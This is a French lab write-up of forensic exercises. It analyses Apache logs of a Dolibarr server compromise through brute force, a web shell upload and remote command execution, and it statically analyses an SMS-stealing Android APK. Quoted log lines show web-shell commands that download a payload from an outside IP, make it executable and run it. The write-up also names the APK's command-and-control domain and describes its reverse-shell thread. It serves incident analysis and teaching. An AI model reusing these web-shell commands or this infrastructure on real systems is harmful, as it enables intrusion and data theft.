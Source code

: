 # Exercice 1 : 

### Question 4 :

Grâce à wireshark et l'addresse du serveur on peut voir que seul deux addresse ont fait des requêtes de connexion acceptées :

    192.168.1.17 et 192.168.1.14

Et grâce au fichier arp.txt qui a les login en clair on peut faire correpondre les login avec les addresses : 
- 192.168.1.17 : Mobile3
- 192.168.1.14 : PC1

# Exercice 2 :

### Question 1 :

L'attaque Brutforce a commencée à 9h01, on voit de très nombeuses requêtes sur auth.php : 


    192.168.1.10 - - [23/May/2023:09:01:24 +0100] "POST /dolibarr/htdocs/modules/auth.php HTTP/1.1" 200 7535 "-" "Wget/1.21"

    192.168.1.10 - - [23/May/2023:09:01:26 +0100] "POST /dolibarr/htdocs/modules/auth.php HTTP/1.1" 200 7535 "-" "Wget/1.21"

    192.168.1.10 - - [23/May/2023:09:01:28 +0100] "POST /dolibarr/htdocs/modules/auth.php HTTP/1.1" 200 7535 "-" "Wget/1.21"

### Question 2 : 

L'attaquant a testé  .php,.phtml,.php3,.php4,.php5,.php6,.php7 et .phar, on peut désormais identifié l'attaaquant authentifié sur le user  64nxlskk.php :

    192.168.1.10 - - [23/May/2023:09:54:17 +0100] "POST /dolibarr/htdocs/user/64nxlskk.php?id=2 HTTP/1.1" 200 7439 "http://www.pms.com/dolibarr/htdocs/" "python-requests/2.25.1"

    192.168.1.10 - - [23/May/2023:09:54:17 +0100] "GET /dolibarr/documents/users/2/64nxlskk.php?cmd=id HTTP/1.1" 404 490 "-" "python-requests/2.25.1"

    192.168.1.10 - - [23/May/2023:09:54:17 +0100] "POST /dolibarr/htdocs/user/64nxlskk.phtml?id=2 HTTP/1.1" 200 7778 "http://www.pms.com/dolibarr/htdocs/" "python-requests/2.25.1"

    192.168.1.10 - - [23/May/2023:09:54:18 +0100] "GET /dolibarr/documents/users/2/64nxlskk.phtml?cmd=id HTTP/1.1" 404 490 "-" "python-requests/2.25.1"

    192.168.1.10 - - [23/May/2023:09:54:18 +0100] "POST /dolibarr/htdocs/user/64nxlskk.php3?id=2 HTTP/1.1" 200 7817 "http://www.pms.com/dolibarr/htdocs/" "python-requests/2.25.1"

    192.168.1.10 - - [23/May/2023:09:54:18 +0100] "GET /dolibarr/documents/users/2/64nxlskk.php3?cmd=id HTTP/1.1" 404 490 "-" "python-requests/2.25.1"

    192.168.1.10 - - [23/May/2023:09:54:18 +0100] "POST /dolibarr/htdocs/user/64nxlskk.php4?id=2 HTTP/1.1" 200 7861 "http://www.pms.com/dolibarr/htdocs/" "python-requests/2.25.1"

    192.168.1.10 - - [23/May/2023:09:54:18 +0100] "GET /dolibarr/documents/users/2/64nxlskk.php4?cmd=id HTTP/1.1" 404 490 "-" "python-requests/2.25.1"

    192.168.1.10 - - [23/May/2023:09:54:18 +0100] "POST /dolibarr/htdocs/user/64nxlskk.php5?id=2 HTTP/1.1" 200 7893 "http://www.pms.com/dolibarr/htdocs/" "python-requests/2.25.1"

    192.168.1.10 - - [23/May/2023:09:54:18 +0100] "GET /dolibarr/documents/users/2/64nxlskk.php5?cmd=id HTTP/1.1" 404 490 "-" "python-requests/2.25.1"

    192.168.1.10 - - [23/May/2023:09:54:18 +0100] "POST /dolibarr/htdocs/user/64nxlskk.php6?id=2 HTTP/1.1" 200 7936 "http://www.pms.com/dolibarr/htdocs/" "python-requests/2.25.1"
    
    192.168.1.10 - - [23/May/2023:09:54:18 +0100] "GET /dolibarr/documents/users/2/64nxlskk.php6?cmd=id HTTP/1.1" 404 490 "-" "python-requests/2.25.1"
    
    192.168.1.10 - - [23/May/2023:09:54:18 +0100] "POST /dolibarr/htdocs/user/64nxlskk.php7?id=2 HTTP/1.1" 200 7976 "http://www.pms.com/dolibarr/htdocs/" "python-requests/2.25.1"
    192.168.1.10 - - [23/May/2023:09:54:18 +0100] "GET /dolibarr/documents/users/2/64nxlskk.php7?cmd=id HTTP/1.1" 404 490 "-" "python-requests/2.25.1"
    
    192.168.1.10 - - [23/May/2023:09:54:18 +0100] "POST /dolibarr/htdocs/user/64nxlskk.phar?id=2 HTTP/1.1" 200 7736 "http://www.pms.com/dolibarr/htdocs/" "python-requests/2.25.1"
    
    192.168.1.10 - - [23/May/2023:09:54:18 +0100] "GET /dolibarr/documents/users/2/64nxlskk.phar?cmd=id HTTP/1.1" 200 257 "-" "python-requests/2.25.1"

### Question 3 : 

L'attaquant utilise alors l'extension .phar car c'est la dernière extension qu'il a testé et c'est celle avec laquelle il fait les requêtes suivantes : 

    192.168.1.10 - - [23/May/2023:09:54:21 +0100] "GET /dolibarr/documents/users/2/64nxlskk.phar?cmd=id HTTP/1.1" 200 258 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"

### Question 4 : 

On peut ensuite voir qu'il télécharge le fichier "fiche_de_poste.odt" en faisant **"wget http://240.123.207.20/fiche_de_poste.odt"** : 

    192.168.1.10 - - [23/May/2023:09:55:20 +0100] "GET /dolibarr/documents/users/2/64nxlskk.phar?cmd=wget%20http://240.123.207.20/fiche_de_poste.odt HTTP/1.1" 200 486 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"

Qu'il renomme ce dernier en "fiche de paie" avec : **"mv fiche_de_poste.odt fiche_de_poste"** : 

    192.168.1.10 - - [23/May/2023:09:55:38 +0100] "GET /dolibarr/documents/users/2/64nxlskk.phar?cmd=mv%20fiche_de_poste.odt%20fiche_de_poste HTTP/1.1" 200 203 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"

Pour ensuite le rendre exécutable par tout le monde avec **"chmod 755 fiche_de_poste"** : 

    192.168.1.10 - - [23/May/2023:09:55:52 +0100] "GET /dolibarr/documents/users/2/64nxlskk.phar?cmd=chmod%20755%20fiche_de_poste HTTP/1.1" 200 203 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"

Et enfin il l'exécute avec **"./fiche_de_poste"** : 

    192.168.1.10 - - [23/May/2023:09:58:22 +0100] "GET /dolibarr/documents/users/2/64nxlskk.phar?cmd=./fiche_de_poste HTTP/1.1" 200 245 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"


# Exercice 4 : 

### Question 1 : 

Les modules de Kotlin ont été importés, ont peu donc supposés que c'est une application android écrit en Kotlin. 

### Question 2 :

On retrouve que l'archive contient les permissions de lire les SMS, Recevoir une notification du démarrage de l'appareil et accès a internet en faisant la commande suivante sur l'apk : 

    $ aapt dump permissions base.apk 

    package: com.android.updateserver
    uses-permission: name='android.permission.READ_SMS'
    uses-permission: name='android.permission.RECEIVE_BOOT_COMPLETED'
    uses-permission: name='android.permission.INTERNET'

### Question 3 :

On peut retrouver que la version de android core utilisée et la 1.5.0 : 

    $ cd META-INF
    $ cat androidx.core_core.version 
    1.5.0

### Question 4 :

Le language de programmation décompilé est java comme on peut le voir dans le dossier kotlin, les extensions sont .java. Ceci peut s'expliquer car le kotlin est un language de programmation basé sur du Java.

### Question 5 : 

L'addresse du serveur peut se retrouver dans DumpData.java dans les attributs de la classe, on retrouve alors :**"sms.pms.droid.vubugzurwpehppqzwsshvypjwtmxkekg.xyz:8888"**

    public class DumpData {
        public static final MediaType JSON = MediaType.get("application/json; charset=utf-8");
        private static String SERVER_IP = "sms.pms.droid.vubugzurwpehppqzwsshvypjwtmxkekg.xyz";

### Question 6 :

L'autre fichier a pour fonction lui de créer un thread afin de donner l'accès au shell de la machine depuis un poste distant, pour cela il utilise un socket sur lequel il va relier l'entrée standart et les sorties standarts.
